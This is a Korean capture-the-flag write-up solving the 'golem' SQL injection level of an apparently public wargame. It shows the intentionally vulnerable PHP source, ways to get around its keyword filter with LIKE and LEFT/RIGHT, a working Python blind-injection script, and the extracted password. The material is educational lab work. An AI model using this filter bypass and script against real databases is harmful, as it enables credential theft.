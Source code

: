 # LOS - golem

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

이번 문제는 다양한 조건이 걸려있다. 'or','and'부터 pw를 비교하는데 쓰는 substr에 '=' 기호까지..  그래서 이번 문제는 새로운 비교 구문을 찾아내야 했다.

열심히 찾아낸 결과, '='을 대체할 like라는 구문과 substr을 대체할 left,right 구문을 알아냈다. 
먼저 찾은 구문에 대해서 알아보면,

like는 말 그대로 '='의 기능을 하는 구문이고

```mysql
select * from table_name where id like 'admin'
```

이런 식으로 사용한다. 'admin'부분에 패턴을 주어서 다양하게 활용이 가능하다. 

left와 right구문은 주어진 부분의 왼쪽으로부터 위치, 오른쪽으로부터 위치의 값을 가져오며

```mysql
select * from table_name where ascii(left(right(pw,1),1)) = 49
```

이처럼 사용이 가능하다. 

두 구문 모두 활용하기에 따라서 활용법은 많으나 문제에 관련해서만 정리했다. 



이제 문제를 보면 지금까지 만들어서 사용했던 코드에서 '='와 'substr'부분을 위의 구문으로 고쳐서 사용하면 pw를 알아낼 수 있다. 

```python
import requests
cooki = {'PHPSESSID': "70n919pvoci31ggq3bqa5i3mp0"}
url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php"
i = 1
key = "Hello admin"
pw_len = 0
while True:
    params = {'pw': "'||length(pw) like '"+str(i)+"'#"}
    res = requests.get(url, params, cookies=cooki)
    #print res.text
    if key in res.text:
        pw_len = i
        break
    i = i + 1
    print i
print pw_len
for j in range(1,pw_len+1):
    for k in range(48, 123):
        if 58 <= k < 65:
            continue
        if 91 <= k < 97:
            continue
        params = {'pw': "' || id like 'admin' && ascii(left(right(pw,"+str(j)+"),1)) like "+str(k)+"#"}
        res2 = requests.get(url, params, cookies=cooki)

        if key in res2.text:
            print str(j) + " : " + chr(k)

```

먼저 pw의 길이를 구하고 구한 길이만큼 반복문을 돌려서 pw의 각 문자를 비교한다. 

```
1 : b
2 : 0
3 : 9
4 : 2
5 : 6
6 : d
7 : 7
8 : 7
```

비교해서 얻은 문자열은 위와 같은데 비교할때 pw의 뒤에서부터 비교하는 방식으로 코드를 짰으므로 '77d6290b'가 admin의 pw이다. 

```url
https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw=77d6290b
```

![1565342059438](C:\Users\qkrwl\Documents\web\los\LOS - golem-clear.png)